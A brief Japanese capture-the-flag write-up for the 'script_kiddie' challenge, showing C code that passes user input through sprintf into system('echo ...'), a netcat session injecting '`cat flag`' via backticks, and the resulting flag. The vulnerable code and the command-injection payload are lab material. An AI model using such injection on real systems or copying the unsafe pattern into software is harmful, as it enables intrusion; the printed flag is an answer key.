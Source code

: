 # script_kiddie

以下のソースコードより`echo`コマンドによってファイルの中身を出力すれば良いと判断した．`flag`ファイルにFLAGがあると判断して，catコマンドを使いました．

```C
echo cat flag
```

```C
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

// バッファリングを無効化して時間制限を60秒に設定
__attribute__((constructor)) void setup() {
  alarm(60);
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
}

void show_flag() {
  char flag_name[0x10] = {};
  printf("Which flag do you want?");
  read(0, flag_name, 0x10);

  char cmd[0x20];
  sprintf(cmd, "echo %s", flag_name);

  // show FLAG
  system(cmd);
}

int main() { show_flag(); }
```


```bash
$ nc 
Which flag do you want?./*
./flag ./script_kiddie ./start.sh
$ nc 
Which flag do you want?`cat flag`
taskctf{n0w_y0u_g0t_shell}
```

FLAG

```bash
taskctf{n0w_y0u_g0t_shell}
```
